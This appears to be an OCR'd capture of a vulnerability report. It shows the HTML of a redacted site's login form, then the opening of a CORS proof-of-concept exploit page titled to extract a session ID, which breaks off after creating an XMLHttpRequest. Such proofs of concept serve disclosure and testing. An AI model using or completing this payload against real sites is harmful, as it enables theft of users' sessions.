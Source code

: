 ```
          </div>
        </div>
    </div>
  </div>

<br>
<div class="content">
    <div class="pure-g">
      <div class="l-box pure-u-1 pure-u-md-1-3 pure-u-lg-1-3"></div>
      <div class="l-box pure-u-1 pure-u-md-1-3 pure-u-lg-1-3">
        <h3 class="content-subhead">█████ Login</h3>
		
		    <ul class="errorlist nonfield"><li>Please enter a correct username and password. Note that both fields may be case-sensitive.</li></ul>
		      
	    <form class="pure-form pure-form-stacked" method="post">
	        <input type="hidden" name="csrfmiddlewaretoken" value="DeIerTwRSGf8VW9JEFbD6LCLNfcLlldRnQGdDO68zGhvWtFuN0TTdSphzc62VxjU">
	        <fieldset>
	            <legend>Register <a href="/register">here</a> if you're a new user</legend>
	              
	                <label for="id_username">Username</label>
	                
	                  <input id="id_username" name="username" class="pure-input" type="text" required>	                
	                
	              
	                <label for="id_password">Password</label>
	                
	                  <input id="id_password" name="password" class="pure-input" type="password" required>
	                
	              
	            <button type="submit" class="pure-button pure-button-primary">Login</button>
	        </fieldset>
	    </form>
    	<a href="/reset/password_reset/">Forgot your password?</a>
      </div>
      <div class="l-box pure-u-1 pure-u-md-1-3 pure-u-lg-1-3"></div>
    </div>
</div>


</body>
</html>

```

paylod :

``` 
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
```